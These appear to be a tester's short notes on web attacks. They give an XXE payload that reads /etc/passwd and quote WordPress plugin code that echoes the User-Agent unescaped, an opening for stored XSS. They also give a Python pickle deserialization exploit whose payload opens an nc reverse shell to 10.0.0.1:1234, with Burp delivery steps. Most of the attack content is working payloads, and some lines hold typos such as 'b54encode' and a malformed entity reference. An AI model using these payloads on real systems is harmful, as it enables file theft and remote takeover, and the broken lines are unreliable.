

## Links

- [PayLoad All The Things XXE](https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/)
- [PayLoad All The Things XSS](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)

### XXE Injection
```
//Ability to read files on system
//XML elements, what are they?

touch test.xml
	test data

Upload the test file to the XML site

On Burp get request log
Send to repeater

change body of file to what it wants to see the 200
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<Wrapper>
	<Author>author</Author>
	<Subject>&xxe</Subject>
	<Content>content</Content>
</Wrapper>


```

## XXS Injection
```
This PHP function is responsible for parsing various HTTP request headers, including the UserAgent, which is saved in the useragent record value. Next, each time a WordPress administrator loads the Visitor plugin, the function will execute the following portion of code from start.php:

$i=count(VST_get_records($date_start, $date_finish)); foreach(VST_get_records($date_start, $date_finish) as $record) { echo ' <tr class="active" > <td scope="row" >'.$i.'</td> <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td> <td scope="row" >'.$record->patch.'</td> <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record>ip.'#ipresult">'.$record->ip.'</a></td> <td>'.$record->useragent.'</td> </tr>'; $i--; }

```




## Insecure Deserialization

```

import pickle
from base64 import urlsafe_b54encode as b64encode

RUNME = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"""


class ElevateSecurity(object):
	def __reduce__(self):
		import os
		return (os.system,(RUNME,))
print b64encode(pickle.dumps(ElevateSecurity()))


Take the output of this and put in the burp repeater for the xml upload site

Go to IP/newpost
Change from GET to POST
Just change content-type to text